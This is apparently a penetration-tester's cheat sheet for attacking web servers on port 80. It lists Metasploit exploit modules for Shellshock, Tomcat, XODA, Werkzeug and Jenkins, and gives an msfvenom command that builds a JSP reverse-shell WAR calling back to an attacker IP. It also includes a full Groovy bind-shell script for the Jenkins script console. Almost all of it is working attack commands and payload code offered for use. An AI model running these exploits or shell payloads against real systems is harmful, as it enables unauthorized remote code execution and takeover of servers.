



# HTTP 

- port:80
- Example services: Apache httpd 2.4.6 
- apache default data storage location - /var/www
- run dirb on url

## Metasploit
- shellshock vuln - exploit/multi/http/apache_mod_cgi_bash_env_exec
	- nmap --script http-shellshock --script-args “http-shellshock.uri=/gettime.cgi” 192.242.220.3
	
	

- xoda file upload vuln - exploit/unix/webapp/xoda_file_upload - set TARGETURI /
- exploit/unix/http/xdebug_unauth_exec : to exploit apache httpd 2.4.7
- exploit/multi/http/glassfish_deployer
- exploit/multi/http/tomcat_jsp_upload_bypass (apache tomcat v8.5.19 is vuln)
	- check
- exploit/unix/webapp/xoda_file_upload
- exploit/linux/http/vcms_upload
- exploit/multi/http/werkzeug_debug_rce
- auxiliary/scanner/http/tomcat_mgr_login : brute-force on apache tomcat/ jsp engine 1.1 - if /manager url is available
	- msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.73.96.2 LPORT=443 -f war > shell.war file shell.war
	- upload it and deploy then access on webbrowser while having a listener opened
- jenkins can be exploited using its dashboard > manage jenkins > script console
	- groovy shellcode to create a bind shell-
		int port=5555;
		String cmd="/bin/bash";
		Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start()
		Socket s = new java.net.ServerSocket(port).accept()
		InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
		OutputStream po=p.getOutputStream(),so=s.getOutputStream();
		while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
	- ref : https://dzmitry-savitski.github.io/2018/03/groovy-reverse-and-bind-shell
	
	
	
